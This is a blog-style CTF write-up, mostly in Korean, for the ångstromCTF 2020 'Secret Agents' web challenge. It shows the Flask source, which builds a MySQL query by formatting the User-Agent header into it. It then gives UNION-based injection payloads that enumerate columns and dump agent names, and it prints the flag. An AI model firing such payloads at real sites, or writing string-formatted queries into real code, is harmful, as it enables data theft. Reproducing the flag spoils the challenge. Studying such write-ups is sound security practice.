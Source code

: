 ```yaml
---
title: Angstromctf2020 - Secret Agents
header:
  teaser: ""
categories:
  - CTF
  - Angstromctf2020
tags:
  - Angstromctf2020
  - CTF
toc: true
---
```


# Secret Agents
---
![](../assets/img/Pasted%20image%2020240330203219.png)

![](../assets/img/Pasted%20image%2020240330203225.png)

```python
from flask import Flask, render_template, request
#from flask_limiter import Limiter
#from flask_limiter.util import get_remote_address

from .secret import host, user, passwd, dbname

import mysql.connector


dbconfig = {
	"host":host,
	"user":user,
	"passwd":passwd,
	"database":dbname
}

app = Flask(__name__)
"""
limiter = Limiter(
	app,
	key_func=get_remote_address,
	default_limits=["1 per second"],
)"""


#@limiter.exempt
@app.route("/")
def index():
	return render_template("index.html")


@app.route("/login")
def login():
	u = request.headers.get("User-Agent")

	conn = mysql.connector.connect(
					**dbconfig
					)

	cursor = conn.cursor()

	#cursor.execute("SET GLOBAL connect_timeout=1")
	#cursor.execute("SET GLOVAL wait_timeout=1")	
	#cursor.execute("SET GLOBAL interactive_timeout=1")

	for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
		if r.with_rows:
			res = r.fetchall()
			break

	cursor.close()
	conn.close()

	

	if len(res) == 0:
		return render_template("login.html", msg="stop! you're not allowed in here >:)")

	if len(res) > 1:
		return render_template("login.html", msg="hey! close, but no bananananananananana!!!! (there are many secret agents of course)")


	return render_template("login.html", msg="Welcome, %s"%(res[0][0]))

if __name__ == '__main__':
	app.run('0.0.0.0')
```

백엔드 소스코드가 제공된다.  
User-Agents를 이용한 SQLI 문제이다.
![](../assets/img/Pasted%20image%2020240330203337.png)

아래의 SQL문으로 보내면 

```sql
User-Agent: 'union select group_concat(column_name),2 from information_schema.columns where table_name="Agents"#
```


![](../assets/img/Pasted%20image%2020240330203326.png)


Name과 UA라는 컬럼명을 가지고 있다는것을 알 수 있다.

```sql
User-Agent: 'union select group_concat(Name),2 from Agents#
```  
![](../assets/img/Pasted%20image%2020240330203355.png)

```text
actf{nyoom_1_4m_sp33d}
```
